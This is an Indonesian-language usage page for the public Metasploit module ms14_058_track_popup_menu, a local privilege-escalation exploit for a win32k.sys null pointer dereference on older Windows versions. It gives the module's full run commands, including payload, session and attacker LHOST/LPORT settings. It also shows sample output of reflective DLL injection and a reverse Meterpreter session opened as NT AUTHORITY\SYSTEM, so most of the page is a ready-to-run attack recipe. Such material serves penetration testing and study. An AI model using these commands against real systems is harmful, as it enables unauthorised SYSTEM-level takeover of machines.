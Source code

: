 # ms14_058_track_popup_menu

Modul ini mengeksploitasi `Null Pointer Dereference` pada `win32k.sys`. Kerentanan ini dapat dipicu melalui penggunaan fungsi `TrackPopupMenu`. Dalam kondisi tertentu, `null pointer dereference` ini dapat disalahgunakan pada `xxxSendMessageTimeout` untuk mencapai eksekusi kode sewenang-wenang (`arbitrary code execution`).

Modul ini telah berhasil diuji pada:
- `Windows XP SP3`
- `Windows Server 2003 SP2`
- `Windows 7 SP1` (`32-bit` dan `64-bit`)
- `Windows Server 2008` (`32-bit` dan `R2 SP1 64-bit`)

## Penulis
- Unknown
- [juan vazquez](juan.vazquez@metasploit.com) 
- [Spencer McIntyre](https://github.com/zerosteiner)
- [OJ Reeves](oj@buffered.io) 

## Platform
- `Windows`

## Arsitektur
- `x86`, `x64`

## Cara Penggunaan di Metasploit

```
use exploit/windows/local/ms14_058_track_popup_menu'
set PAYLOAD <PAYLOAD>
set SESSION <ID>
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
set TARGET <ID>
set VERBOSE true
```

Hasil output-nya seperti ini:

```
[*] Started reverse TCP handler on 192.168.1.11:4444 
[*] win32k.sys file version: 6.1.7601.17514 branch: 17
[*] Reflectively injecting the exploit DLL and triggering the exploit...
[*] Launching msiexec to host the DLL...
[+] Process 4352 launched.
[*] Reflectively injecting the DLL into 4352...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (177734 bytes) to 192.168.1.53
[*] Meterpreter session 15 opened (192.168.1.11:4444 -> 192.168.1.53:49162) at 2025-05-17 05:58:24 +0700

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```

## Referensi
- [Rapid7](https://www.rapid7.com/db/modules/exploit/windows/local/ms14_058_track_popup_menu/)
